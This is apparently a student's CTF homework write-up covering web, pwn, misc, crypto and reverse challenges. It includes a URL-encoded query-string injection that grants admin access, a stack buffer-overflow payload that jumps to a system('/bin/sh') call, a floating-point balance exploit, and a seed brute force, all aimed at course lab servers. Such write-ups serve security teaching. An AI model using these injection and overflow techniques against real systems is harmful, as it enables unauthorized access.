





# HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
      ```js
      // but the function can't be directly access by external users
      if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
      ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`

      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`  
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. Start `gdb` and `disas main`.

   ```
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000000004011c6 <+0>:	push   rbp
      0x00000000004011c7 <+1>:	mov    rbp,rsp
   => 0x00000000004011ca <+4>:	sub    rsp,0x10
      ......
      0x0000000000401228 <+98>:	lea    rdi,[rip+0xdf9]        # 0x402028
      0x000000000040122f <+105>:	mov    eax,0x0
      0x0000000000401234 <+110>:	call   0x401050 <printf@plt>
      0x0000000000401239 <+115>:	lea    rax,[rbp-0x10]
      0x000000000040123d <+119>:	mov    rsi,rax
      0x0000000000401240 <+122>:	lea    rdi,[rip+0xdf6]        # 0x40203d
      0x0000000000401247 <+129>:	mov    eax,0x0
      0x000000000040124c <+134>:	call   0x401070 <__isoc99_scanf@plt>
      0x0000000000401251 <+139>:	lea    rax,[rbp-0x10]
      0x0000000000401255 <+143>:	mov    rsi,rax
      0x0000000000401258 <+146>:	lea    rdi,[rip+0xde1]        # 0x402040
      0x000000000040125f <+153>:	mov    eax,0x0
      0x0000000000401264 <+158>:	call   0x401050 <printf@plt>
      0x0000000000401269 <+163>:	lea    rax,[rbp-0x10]
      0x000000000040126d <+167>:	mov    rax,QWORD PTR [rax]
      0x0000000000401270 <+170>:	leave
      0x0000000000401271 <+171>:	ret
   End of assembler dump.
   ```

   From the assembler code, the program use `printf` to output some information and use `scanf` to get the input.

2. Observer the stack after `scanf`.

   ```
   [----------------------------------registers-----------------------------------]
   RAX: 0x1
   RBX: 0x0
   RCX: 0x7ffff7dd0560 --> 0x7ffff7dcc580 --> 0x7ffff7b99bce --> 0x636d656d5f5f0043 ('C')
   RDX: 0x7ffff7dd18d0 --> 0x0
   RSI: 0x1
   RDI: 0x0
   RBP: 0x7fffffffe580 --> 0x401280 (<__libc_csu_init>:	endbr64)
   RSP: 0x7fffffffe570 ("AAAAAAAA")
   RIP: 0x401251 (<main+139>:	lea    rax,[rbp-0x10])
   R8 : 0x0
   R9 : 0x0
   R10: 0x0
   R11: 0x40203f --> 0x202c6f6c6c654800 ('')
   R12: 0x401090 (<_start>:	endbr64)
   R13: 0x7fffffffe660 --> 0x1
   R14: 0x0
   R15: 0x0
   EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x401240 <main+122>:	lea    rdi,[rip+0xdf6]        # 0x40203d
      0x401247 <main+129>:	mov    eax,0x0
      0x40124c <main+134>:	call   0x401070 <__isoc99_scanf@plt>
   => 0x401251 <main+139>:	lea    rax,[rbp-0x10]
      0x401255 <main+143>:	mov    rsi,rax
      0x401258 <main+146>:	lea    rdi,[rip+0xde1]        # 0x402040
      0x40125f <main+153>:	mov    eax,0x0
      0x401264 <main+158>:	call   0x401050 <printf@plt>
   [------------------------------------stack-------------------------------------]
   0000| 0x7fffffffe570 ("AAAAAAAA")
   0008| 0x7fffffffe578 --> 0x0
   0016| 0x7fffffffe580 --> 0x401280 (<__libc_csu_init>:	endbr64)
   0024| 0x7fffffffe588 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
   0032| 0x7fffffffe590 --> 0x1
   0040| 0x7fffffffe598 --> 0x7fffffffe668 --> 0x7fffffffe847 ("/root/mhsuab/Desktop/ComputerSecurity2020/hw0/pwn/CafeOverflow")
   0048| 0x7fffffffe5a0 --> 0x100008000
   0056| 0x7fffffffe5a8 --> 0x4011c6 (<main>:	push   rbp)
   [------------------------------------------------------------------------------]
   Legend: code, data, rodata, value
   0x0000000000401251 in main ()
   ```

   Input `AAAAAAAA` to observer the stack. Find that the start address of the input is `0x7fffffffe570` and, as `scanf` use `%s` specifier, it accept **any number** of *non-whitespace* characters, stopping at the first whitespace. Also, find that the address of **RBP** is `0x7fffffffe580` and the **return address** at `0x7fffffffe588`. Therefore, pad `0x7fffffffe588 - 0x7fffffffe570 = 24` characters to overwrite **RBP**, add a *target address* after it to overwrite the **return address** and jump to our destination *address*.

3. List out all the functions and find an interesting function `func1`.

   ```
   disas func1
   Dump of assembler code for function func1:
      0x0000000000401176 <+0>:	push   rbp
      0x0000000000401177 <+1>:	mov    rbp,rsp
      0x000000000040117a <+4>:	sub    rsp,0x10
      0x000000000040117e <+8>:	mov    rax,rax
      0x0000000000401181 <+11>:	mov    QWORD PTR [rbp-0x8],rax
      0x0000000000401185 <+15>:	movabs rax,0xcafecafecafecafe
      0x000000000040118f <+25>:	cmp    QWORD PTR [rbp-0x8],rax
      0x0000000000401193 <+29>:	jne    0x4011b7 <func1+65>
      0x0000000000401195 <+31>:	lea    rdi,[rip+0xe68]        # 0x402004 ("Here you go")
      0x000000000040119c <+38>:	call   0x401030 <puts@plt>
      0x00000000004011a1 <+43>:	lea    rdi,[rip+0xe68]        # 0x402010 --> 0x68732f6e69622f ('/bin/sh')
      0x00000000004011a8 <+50>:	call   0x401040 <system@plt>
      0x00000000004011ad <+55>:	mov    edi,0x0
      0x00000000004011b2 <+60>:	call   0x401080 <exit@plt>
      0x00000000004011b7 <+65>:	lea    rdi,[rip+0xe5a]        # 0x402018
      0x00000000004011be <+72>:	call   0x401030 <puts@plt>
      0x00000000004011c3 <+77>:	nop
      0x00000000004011c4 <+78>:	leave
      0x00000000004011c5 <+79>:	ret
   End of assembler dump.
   ```

   Call `system('/bin/sh')` when fulfill certain requirements. Instead of trying to fulfill the requirements, jump pass it. Therefore, the *target address* should be `0x401195`(`0x4011a1` can also achieve our goal).

4. Combine all the steps.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)` send it through script to get shell and the flag.

## Misc - The Floating Aquamarine
> FLAG{floating_point_error_https://0.30000000000000004.com/}  
> [solution](./misc/solve.py)  

From [src.cpp](./hw0/../misc/src.cpp), find that variable `PRICE, RICH, balance` are `float`. Therefore, the vulnerability may be due the precision of floating point. By buying a large amount and spliting to little portion for selling, one can possibly gain money as demonstrated below. Finally, by repeat it multiple times, we are able to make `balance` larger than `RICH`.
```shell
$ nc hw00.zoolab.org 65535
Welcome to Aquamarine bank! You can buy/loan and sell Aquamarine here.
The price of Aquamarine is fixed at 88.88 dollars. No bargaining!
If your balance >= 3000 dollars, you can get the flag!

Your Aquamarine: 0, balance: 0
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
100000000
Your Aquamarine: 100000000, balance: -8.888e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 0)
-3000000
Your Aquamarine: 97000000, balance: -8.62136e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 3000000)
-97000000
Your Aquamarine: 0, balance: 1024
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
```


## Cryptography - 解密一下
> FLAG{4lq7mWGh93}  
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
   - `_encrypt`
      ```python
      def _encrypt(pts: _list[int], key: _list[int]):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         for _ in range(32):
            count = count + delta & mask    # delta & mask = 0xfaceb00c = 4207849484
            pts[0] = pts[0] + ((pts[1] << 4) + key[0] & mask ^ (pts[1] + count) & mask ^ (pts[1] >> 5) + key[1] & mask) & mask
            pts[1] = pts[1] + ((pts[0] << 4) + key[2] & mask ^ (pts[0] + count) & mask ^ (pts[0] >> 5) + key[3] & mask) & mask
         return pts
      ```
      Perform a certain operation 32 times on the input plaintext, adding a certain value (corresponding to `pts[1], pts[0]` and `count`) each time for `pts[0], pts[1]`. 
   - `_decrypt`
      ```python
      def _decrypt(cts, key):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         last = 0x59d60180
         for _ in range(32):
            cts[1] = cts[1] - ((cts[0] << 4) + key[2] & mask ^ (cts[0] + last) & mask ^ (cts[0] >> 5) + key[3] & mask) & mask
            cts[0] = cts[0] - ((cts[1] << 4) + key[0] & mask ^ (cts[1] + last) & mask ^ (cts[1] >> 5) + key[1] & mask) & mask
            last = last - delta & mask
         return cts
      ```
      Reverse `_encrypt`. Find out the last used `count`, which is `0x59d60180`, and perform certain operation 32 times, reversing the order of `cts[0], cts[1]` and substracting a certain value each time.
4. Guess [output.txt](./crypto/output.txt) is the result of [encrypt.py](./crypto/encrypt.py) `n` days ago. Starting from `n` days ago, start brute force :joy: .
   
   - Knowing that the flag has initial `flag{` or `FLAG`, stop when find a decrypted text has such initial and print out its seed and the result.

## Reverse - EekumBokum
> flag{NANI_KORE?(=.=)EEKUM_BOKUM(=^=)EEKUM_BOKUM}

1. Guess that by recovering the left image back to the right one one can get *flag*. However, we can only control the very right bottom grid and can never achieve the goal.  
   
2. Use `file` to check the binary to find out that it's a `.NET assembly`.
   ```shell
   $ file EekumBokum.exe
   EekumBokum.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
   ```
3. Find a `.NET` decompiler, [dotPeek](https://www.jetbrains.com/decompiler/), to decompile *.NET assembly* to *C#*.
   
4. Export files to **Visual Studio Project**.
   
5. Fix all the errors due to the decompiling.
   
6. Adjust the codes.
   `Form1.cs`
   ```csharp
   private void samonCheck(List<PictureBox> listPitcture)
   {
      List<byte> byteList = new List<byte>();
      for (int index = 0; index < 16; ++index)
      {
         byteList.Add(((Bitmap) listPitcture[index].Image).GetPixel(66, 99).R);
         if (!listPitcture[index].Image.Equals((object) this.originalPicture[index]))
         return;
      }
      ......
      int num4 = (int) MessageBox.Show("this is your flag\n" + Encoding.ASCII.GetString(bytes));
   }
   ```
   Every time after key being pressed, call `samonCheck` to see whether it fulfill the requirement of getting the flag. In order to get the flag, images in increase order, all the image must be in certain order after the change.  
   To be able to fulfill the requirement, change the `idxMovalbe` from *15* to *14*. Then, start and press *left* to make it identical to the right image.
7. Run and get *flag*.
   